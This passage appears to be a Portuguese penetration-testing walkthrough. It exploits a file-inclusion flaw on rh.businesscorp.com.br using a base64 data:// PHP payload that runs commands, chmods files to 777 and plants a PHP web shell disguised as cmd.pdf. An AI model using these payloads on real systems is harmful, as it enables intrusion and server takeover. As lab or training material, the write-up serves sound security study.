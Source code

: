 🔑 Ajustando permissões:  
```
http://rh.businesscorp.com.br/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=chmod%20777%20/var/www/html/uploads/.htaccess
```

📌 Resposta :  
```
    -rwxrwxrwx  1 www-data www-data    37 Sep 19 08:57 .htaccess

```

---

## 📥 Upload de um Prompt de Comando  

Comando utilizado para envio do **cmd.pdf**:  
```

    ** conteudo do cmd: <?php system($_GET['cmd']); ?> **

envio desse conteudo:

http://rh.businesscorp.com.br/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=echo%20'%25PDF-1.4%0A%25%E2%E3%CF%D3%0A%0A%3C?php%20echo%20%22%3Cform%20method%3DGET%3E%3Cinput%20type%3Dtext%20name%3Dcmd%20placeholder%3DDigite%20um%20comando%3E%3Cinput%20type%3Dsubmit%20value%3DExecutar%3E%3C%2Fform%3E%3Cpre%3E%22%3B%20if(isset(%24_GET%5B%22cmd%22%5D))%20%7B%20system(%24_GET%5B%22cmd%22%5D)%3B%20%7D%20echo%20%22%3C%2Fpre%3E%22%3B%20%3F%3E'%20%3E%20%2Fvar%2Fwww%2Fhtml%2Fuploads%2Fcmd.pdf
```

🔗 Acesso ao arquivo: http://rh.businesscorp.com.br/uploads/cmd.pdf 

<p align="center">
  <img width="488" height="132" alt="image" src="https://github.com/user-attachments/assets/ab571ec0-a668-4244-98ab-ffc7f5c209ec" />
</p>

📌 O prompt foi criado com sucesso.  

---

## 🔑 Ajustando Permissões do Prompt

🔗 Comando para aplicar permissões:  
```
http://rh.businesscorp.com.br/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=chmod%20777%20/var/www/html/uploads/cmd.pdf
```

- Resultado :  
<p align="center">
  <img width="430" height="163" alt="image" src="https://github.com/user-attachments/assets/f9528674-fdc2-40a8-a4e3-e33de04431b5" />
</p>

---